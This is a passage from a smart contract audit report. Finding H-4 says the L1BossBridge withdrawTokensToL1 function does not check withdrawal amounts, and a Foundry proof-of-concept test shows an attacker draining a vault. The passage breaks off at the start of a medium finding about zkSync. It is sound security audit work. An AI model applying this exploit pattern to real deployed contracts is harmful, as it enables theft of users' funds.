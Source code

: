 ### [H-4] `L1BossBridge::withdrawTokensToL1` does not validate the withdrawal amount allowing attacker to withdraw more funds than deposited

**Description:** `withdrawTokensToL1` function does not check if the withdrawal amount exceeds the amount of deposited funds. If a `Signer` doesn't check the amounts manually and only validates the fact that a user has deposited to L2, it is possible for the attacker to withdraw more than he deposited.

**Impact:** 
Attacker can actually steal all the tokens in vault.

**Proof of Concept:**
Add following test to the test suite:
```js
    function testArbitraryWithdrawAmount() public {
        address attacker = makeAddr("attacker");
        uint256 attackerInitialBalance = 1e18;
        uint256 vaultInitialBalance = 1000e18;
        deal(address(token), address(vault), vaultInitialBalance);
        deal(address(token), attacker, attackerInitialBalance);

        vm.startPrank(attacker);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2(attacker, attacker, attackerInitialBalance);

        // Signer/Operator is going to sign the withdrawal
        bytes memory message = abi.encode(
            address(token),
            0,
            abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, token.balanceOf(address(vault))))
        );
        (uint8 v, bytes32 r, bytes32 s) =
            vm.sign(operator.key, MessageHashUtils.toEthSignedMessageHash(keccak256(message)));
        tokenBridge.withdrawTokensToL1(attacker, token.balanceOf(address(vault)), v, r, s);
        console2.log("New attacker balance on L1: ", token.balanceOf(address(attacker)));
        assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
        assertEq(token.balanceOf(address(vault)), 0);
        vm.stopPrank();
    }
```

**Recommended Mitigation:** 
Consider adding withdrawal amount checks.

## Medium

### [M-1] `create` opcode does not work on zksync era

**Description:** 
zkSync docs say: 
